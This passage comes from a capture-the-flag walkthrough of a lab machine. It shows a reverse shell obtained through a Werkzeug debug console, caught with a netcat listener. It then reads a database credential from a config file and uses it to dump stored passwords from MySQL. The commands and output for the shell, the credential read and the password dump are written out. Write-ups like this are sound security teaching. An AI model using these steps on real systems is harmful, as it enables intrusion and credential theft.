 With some playing around, I’ll see that what I need is “wsgi\_app”, which comes from the fact that this is served using Gunicorn.

#### Success

I’ll update and get a new pin, and it works:

![image-20230124142043404](/img/image-20230124142043404.png)

### Shell

It looks like the `os` module is imported already:

![image-20230124142118360](/img/image-20230124142118360.png)

I’ll use Python #2 from [revshells.com](https://www.revshells.com/), pasting it directly into the console:

![image-20230124142547688](/img/image-20230124142547688.png)

The page hangs, but I get a shell:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.1.1.105 51078
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Shell as corum

The shell will only last about 5 minutes based on the connection, so it’s important to work quick (or just get another shell). With access as www-data, I can read the DB connection string from `/app/config_prod.json`:

```

(venv) www-data@agile:/app$ cat config_prod.json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}

```

I’ll use that to connect to the database and dump the passwords:

```

(venv) www-data@agile:/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
...[snip]...
mysql> select * from passwords;
+-----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id  | created_date        | last_updated_data   | url            | username | password             | user_id |
+-----+---------------------+---------------------+----------------+----------+----------------------+---------+
|   3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|   4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|   6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|   7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
```